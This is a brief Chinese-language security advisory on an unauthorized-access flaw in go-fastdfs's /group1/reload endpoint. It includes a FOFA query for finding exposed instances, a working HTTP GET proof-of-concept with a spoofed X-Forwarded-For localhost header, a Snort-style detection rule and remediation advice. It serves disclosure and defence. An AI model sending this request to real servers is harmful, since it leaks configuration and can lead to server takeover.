

# Go-fastdfs reload 存在未授权访问漏洞

Go-fastdfs reload 存在未授权访问漏洞，导致数据信息泄露或者导致服务器被控制。

# 影响版本

Go-fastdfs

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="go-fastdfs"

POC/EXP：

```
GET /group1/reload?action=get HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
X-Forwarded-for: 127.0.0.1
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"Go-fastdfs - /group1/reload action=get 未授权配置读取/重载";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/group1/reload";
        fast_pattern;
    http.uri;
        content:"action=get";
    metadata:
        service http,
        affected_product "go-fastdfs",
        vulnerability_type "Unauthorized Access / Configuration Disclosure",
        severity "high";
    classtype:sensitive-information-leak;
    sid:1000781;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
